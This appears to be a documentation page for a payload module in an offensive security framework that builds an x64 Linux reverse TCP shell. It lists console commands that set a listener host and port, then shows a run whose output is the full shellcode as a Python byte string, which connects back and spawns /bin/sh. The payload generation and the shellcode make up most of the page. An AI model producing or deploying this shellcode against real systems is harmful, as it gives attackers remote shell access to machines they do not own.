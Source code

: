## Description

Module generates payload that creates interactive tcp reverse shell for X64 architecture.

## Verification Steps

  1. Start `./thgconsole.py`
  2. Do: `use payloads/x64/reverse_tcp`
  3. Do: `set lhost 192.168.1.4`
  4. Do: `set lport 4321`
  5. Module generates x64 reverse shell tcp payload

## Scenarios

```
rsf > use payloads/x64/reverse_tcp
rsf (X64 Reverse TCP) > set lhost 192.168.1.4
[+] lhost => 192.168.1.4
rsf (X64 Reverse TCP) > set lport 4321
[+] lport => 4321
rsf (X64 Reverse TCP) > run
[*] Running module...
[*] Generating payload
[+] Building payload for python
payload = (
    "\x6a\x29\x58\x99\x6a\x02\x5f\x6a\x01\x5e\x0f\x05\x48\x97\x48"
    "\xb9\x02\x00\x10\xe1\xc0\xa8\x01\x04\x51\x48\x89\xe6\x6a\x10"
    "\x5a\x6a\x2a\x58\x0f\x05\x6a\x03\x5e\x48\xff\xce\x6a\x21\x58"
    "\x0f\x05\x75\xf6\x6a\x3b\x58\x99\x48\xbb\x2f\x62\x69\x6e\x2f"
    "\x73\x68\x00\x53\x48\x89\xe7\x52\x57\x48\x89\xe6\x0f\x05"
)
```
